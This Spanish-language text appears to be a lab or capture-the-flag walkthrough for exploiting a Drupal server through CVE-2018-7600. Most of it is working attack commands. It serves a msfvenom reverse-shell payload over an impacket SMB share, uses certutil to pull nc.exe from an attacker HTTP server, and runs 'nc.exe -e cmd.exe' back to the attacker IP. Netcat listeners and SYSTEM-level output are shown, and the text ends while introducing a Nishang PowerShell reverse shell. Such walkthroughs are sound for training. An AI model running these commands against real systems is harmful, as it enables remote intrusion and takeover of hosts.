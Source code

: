## CARGA DE REVERSE POR CVE-2018-7600 + IMPACKET-SMBSERVER

Para este escenario hacemos la carga por `smb` y ejecución de la reverse shell generada con `msfvenom` por medio de `drupa7-CVE-2018-7600.py`.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "\\\\10.10.14.13\smbFolder\rev.exe"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## CVE-2018-7600 + HTTP SERVER + CERTUTIL

Vamos en esta oportunidad a crear una carpeta llamada `intrution`, donde vamos a hacer la descarga con `certutil` la utilidad `nc.exe` y luego de esto obtener una reverse shell po ejecución remota de comandos.

```bash
rlwrap nc -lvnp 4564
```

```bash
sudo python3 -m http.server 80
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "mkdir C:\Windows\Temp\intrution"
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c 'certutil.exe -f -urlcache -split http://10.10.14.2/nc.exe C:\\Windows\Temp\intrution\nc.exe'
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "C:\Windows\Temp\intrution\nc.exe -e cmd.exe 10.10.14.2 4564"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## INTRUSION NISHANG + POWERSHELL

Hacemos ahora uso de [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), realizando un ajuste en el código para obtener directamente una revese shell descargada en la máquina víctima, haciendo uso de `powershell` por ejecución remota de comandos, por medio de un servidor `http` de python en nuestra máquina atacante.
